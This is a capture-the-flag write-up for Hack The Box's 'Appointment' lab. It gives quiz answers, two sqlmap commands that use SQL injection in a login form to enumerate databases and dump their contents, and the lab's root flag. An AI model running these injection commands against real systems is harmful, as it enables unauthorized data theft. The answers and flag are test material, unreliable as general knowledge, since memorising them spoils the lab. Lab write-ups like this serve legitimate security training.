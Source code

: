 ```
Platform: HackThebox
Challenge: Appointment
OS: Debian
Task: Web, Databases, Injection, Apache, MariaDB, PHP, SQL, Penetration Tester Level 1, Reconnaissance, SQL Injection
Tools Used: Nmap, SqlMap
Author: Paul B.
```
TASK 1

What does the acronym SQL stand for?
```
Structured Query Language
```

TASK 2

What is one of the most common type of SQL vulnerabilities?
```
SQL Injection
```

TASK 3

What does PII stand for?
```
Personally Identifiable Information
```

TASK 4

What does the OWASP Top 10 list name the classification for this vulnerability?
```
A03:2021-Injection
```

TASK 5

What service and version are running on port 80 of the target?
```
Apache httpd 2.4.38 ((Debian))
```

TASK 6

What is the standard port used for the HTTPS protocol?
```
443
```

TASK 7

What is one luck-based method of exploiting login pages?
```
```

TASK 8

What is a folder called in web-application terminology?
```
Directory
```

TASK 9

What response code is given for "Not Found" errors?
```
404
```

TASK 10

What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?
```
dir
```

TASK 11

What symbol do we use to comment out parts of the code?
```
#
```

### Enumeration
SQLMap
Command to enumerate databases
```
sqlmap -u "<Target-IP>" --data="username=test&password=test&form=submit" --method POST --dbs --batch
```
![HTB - Appointment - SQLMAP Dbs.png](https://github.com/paulb-csr/CTF-Writeups/blob/main/HackTheBox/Appointment/HTB%20-%20Appointment%20-%20SQLMAP%20Dbs.png)

Command to dump all data from database
```
sqlmap -u "<Target-IP>" --data="username=test&password=test&form=submit" --method POST -D appdb --dump all --batch
```
![HTB - Appointment - SQLMap Data.png](https://github.com/paulb-csr/CTF-Writeups/blob/main/HackTheBox/Appointment/HTB%20-%20Appointment%20-%20SQLMap%20Data.png)

SUBMIT FLAG

Submit root flag
```
e3d0796d002a446c0e622226f42e9672
```
